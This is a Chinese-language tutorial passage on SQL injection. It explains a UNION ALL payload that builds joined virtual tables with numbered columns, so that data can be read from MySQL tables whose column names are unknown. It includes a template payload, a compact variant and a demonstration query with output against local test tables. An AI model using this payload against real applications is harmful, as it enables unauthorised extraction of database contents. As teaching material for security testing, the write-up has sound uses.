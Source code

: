 — 比如说在原查询的第二字段处出数据



```
... where ... 
union all
select * from(
    (select 1)a join(
        select F.[需要查询的字段号] from(
            select * from [需要查询的表有多少个字段就join多少个]
            union
            select * from [需要查询的表] [limit子句]
        )F-- 我们创建的虚拟表没有表名，因此定义一个别名，然后直接[别名].[字段号]查询数据
    )b-- 同上[还差多少字段就再join多少个，以满足字段数相同的原则]
)
```



正常版：

```
... where ... union all select * from((select 1)a join(select F.[需要查询的字段号] from(select * from [需要查询的表有多少个字段就join多少个] union select * from [需要查询的表] [limit子句])F)b[还差多少字段就再join多少个，以满足字段数相同的原则])
```

payload中的join换成逗号亦可。

我们平时使用union时都是将**union select 1,2,3,4…**写在后面以填充不存在的数据并测试字段数。在这种操作中我们把**union select 1,2,3,4…**写在了前面来充当虚拟表的字段名。本质上来说并不是不知道字段名，而是把不知道字段名的表的查询结果和我们创建的字段名为1,2,3,4…的虚拟表的交集作为一个结果集返回。

这里有一个点，方括号内的limit子句需要特别注意，要取下面这个子查询↓

```
select F.[需要查询的字段号] from(select * from [需要查询的表有多少个字段就join多少个] union select * from [需要查询的表] [limit子句]
```

结果集的最后一行，因为我们需要的数据被union拼到了最后一行（在我们需要的数据只有一行的情况下）。

如果我们需要的东西不止一行会怎么样呢？一段简单的测试：



```
mysql&gt; select * from learning_test union all SELECT * FROM ((SELECT 1)a JOIN (SELECT F.1 from (SELECT * FROM (SELECT 1)u UNION SELECT * FROM test_table LIMIT 2 OFFSET 1)F)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (select 5)e);
+------+---------+---------+---------+-------------+
| num  | column2 | column3 | column4 | bin_column  |
+------+---------+---------+---------+-------------+
|    1 | a       | s       | s       | aaaaaaaaa   |
|    2 | b       | s       | s       | dddd        |
|    3 | c       | s       | s       | wwwwwwww    |
|    4 | d       | s       | s       | ffffffff    |
|    1 | 2       | 3       | 4       | 5           |
|    1 | 3       | 3       | 4       | 5           |
+------+---------+---------+---------+-------------+
6 rows in set (0.00 sec)
```
